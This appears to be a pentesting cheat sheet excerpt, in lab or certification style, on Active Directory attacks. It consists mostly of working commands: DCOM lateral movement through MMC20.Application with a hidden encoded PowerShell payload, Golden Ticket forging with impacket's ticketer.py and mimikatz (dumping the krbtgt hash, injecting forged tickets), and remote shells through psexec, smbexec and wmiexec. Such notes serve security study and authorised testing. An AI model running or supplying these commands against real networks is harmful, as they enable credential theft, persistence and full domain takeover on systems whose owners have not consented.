 ```javascript
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73[files04]"))

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e J...<encoded payload>","7")
```

## Golden Ticket !!

We have krbtgt hash !! [From Linux]

`-domain-sid` --> 
```powrshell
Get-ADDomain htb.local
```
```powershell
# python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain htb.local  <user_name [Anything or administrator]>

# export KRB5CCNAME=<TGS_ccache_file>
```
```powershell
# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
#### Method 2
Suppose you are a `jen` user you have `krbtgt NTLM hash` wanna access the Domain controller !!
```javacript
# we dont have acccess to do this command as jen user !!
PsExec.exe \\dc1 cmd.exe

.\mimikatz.exe
privilege::debug

#grabbing krbtgt NTLM hash 
lsadump::lsa /patch

#delete exsisting other tickets
kerberos::purge

kerberos::golden /user:jen /domain:corp.com /sid:<DC sid> /krbtgt:<NTLM hash> /ptt
```
#### Get access to Domain controller
```javascript
mimikatz.exe #no need for highest privileges
misc::cmd

# Now we can access!!
PsExec.exe \\dc1 cmd.exe

After this the jen user will be part of the domain adminsgroup !!

only make use of the domain name like \\dc1 don't put IP you will not get access !!
```
